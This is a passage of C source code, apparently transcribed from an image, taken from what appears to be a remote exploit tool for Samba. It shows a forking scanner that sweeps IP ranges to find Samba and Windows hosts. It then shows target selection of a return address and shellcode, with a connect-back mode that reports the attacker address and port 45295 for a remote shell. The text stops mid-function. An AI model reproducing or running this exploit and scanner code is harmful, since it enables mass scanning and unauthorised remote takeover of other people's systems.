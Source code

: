                             for (ip4 = 0; ip4 < 255; ip4++) {
                                    i++;
                                    snprintf(scan_ip, sizeof(scan_ip) - 1, "%u.%u.%u.%u", ip1, ip2, ip3, ip4);
                                    usleep(BRUTE_DELAY);

                                    switch (fork()) {
                                            case 0:
                                                    switch(is_samba(scan_ip, 2)) {
                                                            case 0:
                                                                    fprintf(stdout, "+ [%s] Samba\n", scan_ip);
                                                                    break;
                                                            case 1:
                                                                    fprintf(stdout, "+ [%s] Windows\n", scan_ip);
                                                                    break;
                                                            default:
                                                                    break;
                                                    }

                                                    exit(0);
                                                    break;
                                            case -1:
                                                    fprintf(stderr, "+ fork() error\n");
                                                    exit(-1);
                                                    break;
                                            default:
                                                    if (i > MAX_CHILDS - 2) {
                                                            wait(&status);
                                                            i--;
                                                    }
                                                    break;
                                    }
                            }

                    }

                    return 0;
            }


            he = gethostbyname(argv[optind]);

            if (he == NULL) {
                    fprintf(stderr, "Unable to resolve %s...\n", argv[optind]);
                    return -1;
            }

            if (brute == -1) {

                    if (ret == 0) ret = targets[type - 1].ret;

                    shellcode = targets[type - 1].shellcode;

                    if (connectback == 1) {
                            fprintf(stdout, "+ connecting back to: [%d.%d.%d.%d:45295]\n",
                                            ip1, ip2, ip3, ip4);

